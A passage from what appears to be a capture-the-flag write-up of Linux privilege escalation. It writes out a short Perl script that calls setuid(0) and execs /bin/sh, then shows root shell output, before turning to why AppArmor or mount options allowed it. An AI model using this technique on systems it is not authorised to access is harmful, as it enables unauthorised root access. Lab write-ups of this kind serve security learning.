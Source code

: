 
The script uses the setuid function.
Let's write our own script to call sh with the setuid bit set.

```bash
vim /dev/shm/suid_bash.pl
```

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```

Trying to call the script with perl still results in permision denied.

```bash
perl ~/suid_bash.pl
Cant open perl script "/home/david/suid_bash.pl": Permission denied
```

But chmod'ing the script to be executable, then running it works as intended.

```bash
chmod +x ~/suid_bash.pl
~/suid_bash.pl

id
uid=0(root) gid=1000(david) groups=1000(david)
```

![root_proof.png](assets/nunchucks_screenshots/root_proof.png)

## Post Root Invistergation into perl capabilities

This is weird, so we'll look into why this happens. The only reasons I can think of are:

- file system being mounted nosuid, but we ran it from a script so that doesn't make sense.
- SELinux or AppArmour security policies.

We'll double check the file system with mount first.
